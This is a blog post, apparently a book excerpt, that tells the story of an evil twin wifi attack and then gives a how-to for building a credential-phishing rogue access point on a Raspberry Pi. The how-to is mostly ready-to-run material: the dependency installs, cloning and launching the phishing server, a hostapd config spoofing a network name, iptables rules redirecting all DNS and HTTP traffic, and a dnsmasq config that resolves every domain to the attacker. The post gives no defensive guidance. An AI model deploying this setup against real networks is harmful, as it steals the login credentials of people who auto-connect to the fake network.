 +++
date = 2022-05-18T02:10:00Z
title = "Evil Twin Attacks in practice (with Rust and a Raspberry Pi)"
type = "post"
tags = ["hacking", "programming", "rust", "tutorial"]
authors = ["Sylvain Kerkour"]
url = "/evil-twin-attack"

[extra]
lang = "en"

comment ="""
"""
+++

In [Hacking Stories #1 - The Evil Twin](https://kerkour.com/hacking-stories/evil-twin) I teased the simplicity and effectiveness of an evil twin attack. Now it's time to see how to perform it in practice.

The most effective phishing attack I ever witnessed was not an email campaign. It was an **evil twin attack**.

The attacker was walking in a targeted location with a Raspberry Pi in his backpack, spoofing the wifi access points of the location.

When victims connected to his Raspberry Pi (thinking they were connecting to the wifi network of the campus), they were served a portal where they needed to enter their credentials, as usual.

> This post is an excerpt from my book [Black Hat Rust](https://kerkour.com/black-hat-rust)

But as you guessed, it was a phishing form, absolutely identical to the legitimate portal, and all the credentials were logged in a database on the Raspberry Pi of the attacker.

![Evil Twin](https://kerkour.com/2022/evil-twin-attack/ch09_evil_twin.png)


The success rate was in the order of **80%-90%**: 80-90% of the people who connected to the malicious access point got their credentials siphoned!

Then, the phishing portal simply displayed a network error page, telling the victims that there was a problem with the internet and their request couldn't be processed further, in order not to raise suspicion.

But why do people connected to the evil twin access point? They didn't do anything particular! The beauty of the attack is that it relies on a "feature" of wifi: when 2 networks have the same name (SSID), the devices connect to the one with the strongest signal. And as auto-connect is enabled most of the time on all devices, the victims' devices were simply auto-connecting to the malicious access point, thinking that it was a legitimate one.


### How-to


Here is how to build an Evil Twin access point with a Raspberry Pi and Rust.

Be aware that we are going to mess with the OS, so **I strongly recommend you to use a dedicated microSD card**.

The test has been realized on a Raspberry Pi v4 with RaspbianOS. You need to be connected to your Raspberry Pi using the ethernet port as we are going to turn the wifi card into an access point.

Unfortunately, `wasm-opt` [is not available](https://github.com/rustwasm/wasm-pack/issues/913) for `armv7` hosts. Thus, the phishing portal needs to be built in `dev` mode.


First, we install the required dependencies:
```bash
$ sudo apt install -y macchanger hostapd dnsmasq sqlite3 libssl-dev
```

```bash
$ git clone https://github.com/skerkour/black-hat-rust.git && cd black-hat-rust/ch_09/evil_twin
$ make -C ../phishing/ rpi && cp -r ../phishing/dist/* .
```

Then we start our phishing portal (how to build a phishing portal with Rust and WebAssembly? Take a look at my book [Black Hat Rust](https://kerkour.com/black-hat-rust))
```bash
$ sudo ./server -p 80 &
```

And we can finally launch the `evil_twin.sh` script.
```bash
$ sudo ./evil_twin.sh
```

In detail, the `./evil_twin.sh` is doing the following.

It configures `hostapd` to turn the Raspberry Pi's built-in wireless card `wlan0` into an access point.

**[ch_09/evil_twin/hostapd.conf](https://github.com/skerkour/black-hat-rust/blob/main/ch_09/evil_twin/hostapd.conf)**
```
interface=wlan0
channel=6
hw_mode=g

ssid=FREE_WIFI

bridge=bhr0
auth_algs=1
wmm_enabled=0
```

**[ch_09/evil_twin/evil_twin.sh](https://github.com/skerkour/black-hat-rust/blob/main/ch_09/evil_twin/evil_twin.sh)**
```bash
hostapd -B hostapd.conf
```

Then it redirects all the HTTP and DNS requests to the Raspberry pi.

```bash
$ ifconfig bhr0 up
$ ifconfig bhr0 10.1.1.1 netmask 255.255.255.0
$ sysctl net.ipv4.ip_forward=1
$ iptables --flush
$ iptables -t nat --flush
$ iptables -t nat -A PREROUTING -i bhr0 -p udp -m udp --dport 53 -j DNAT --to-destination 10.1.1.1:53
$ iptables -t nat -A PREROUTING -i bhr0 -p tcp -m tcp --dport 80 -j DNAT --to-destination 10.1.1.1:80
$ iptables -t nat -A POSTROUTING -j MASQUERADE
```

Finally, it runs the  `dnsmasq` DHCP and DNS server.

**[ch_09/evil_twin/dnsmasq.conf](https://github.com/skerkour/black-hat-rust/blob/main/ch_09/evil_twin/dnsmasq.conf)**
```default
interface=bhr0
listen-address=10.1.1.1
no-hosts
dhcp-range=10.1.1.2,10.1.1.254,10m
dhcp-option=option:router,10.1.1.1
dhcp-authoritative

address=/#/10.1.1.1
```

```bash
$ sudo cp -f dnsmasq.conf /etc
$ sudo service dnsmasq restart
```
